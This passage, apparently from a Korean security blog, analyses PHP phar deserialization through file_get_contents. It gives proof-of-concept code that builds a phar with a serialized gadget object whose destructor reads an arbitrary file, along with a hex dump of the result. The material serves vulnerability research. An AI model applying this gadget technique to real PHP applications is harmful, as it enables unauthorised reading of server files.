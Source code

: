 추가적으로 발생하는 함수 리스트는 포스팅 맨아래에 첨부하였습니다.

## Analysis

왜 unserialize 취약점이 발생하는지 알기 위해서 **file_get_contents**의 코드를 통해 분석을 진행하였습니다.

우선 분석을 위해 phar파일을 하나 생성하였습니다.

```php
class TEST {
    public $fn;
    function __construct($f){
        $this->fn = $f;
    }
    function __wakeup(){
        print('Hello?');
    }
    function __destruct(){
        readfile($this->fn);
    }
};

$phar = new Phar('shpik.phar');
$phar->startBuffering();
$phar->addFromString("test.txt","test");
$phar->setStub("<?php echo 'STUB!'; __HALT_COMPILER(); ?>");
$obj = new TEST('secret');
$phar->setMetadata($obj);
$phar->stopBuffering();
```

위 코드를 실행하면 다음과 같은 파일이 생성됩니다.

```
$ xxd ./shpik.phar
00000000: 3c3f 7068 7020 6563 686f 2027 5354 5542  <?php echo 'STUB
00000010: 2127 3b20 5f5f 4841 4c54 5f43 4f4d 5049  !'; __HALT_COMPI
00000020: 4c45 5228 293b 203f 3e0d 0a5b 0000 0001  LER(); ?>..[....
00000030: 0000 0011 0000 0001 0000 0000 0025 0000  .............%..
00000040: 004f 3a34 3a22 5445 5354 223a 313a 7b73  .O:4:"TEST":1:{s
00000050: 3a32 3a22 666e 223b 733a 363a 2273 6563  :2:"fn";s:6:"sec
00000060: 7265 7422 3b7d 0800 0000 7465 7374 2e74  ret";}....test.t
00000070: 7874 0400 0000 366a 685c 0400 0000 0c7e  xt....6jh\.....~
00000080: 7fd8 b601 0000 0000 0000 7465 7374 f98b  ..........test..
00000090: aaf0 7402 242b c988 655c ff0e 5694 d006  ..t.$+..e\..V...
000000a0: befa 0200 0000 4742 4d42                 ......GBMB

$ cat secret
MAshiro:)
```

이제 생성한 파일을 가지고 아래의 코드를 실행하여 분석을 시작하였습니다.

```php
class TEST {
    public $fn;
    function __construct($f){
        $this->fn = $f;
    }
    function __wakeup(){
        print('Hello?');
    }
    function __destruct(){
        readfile($this->fn);
    }
};

```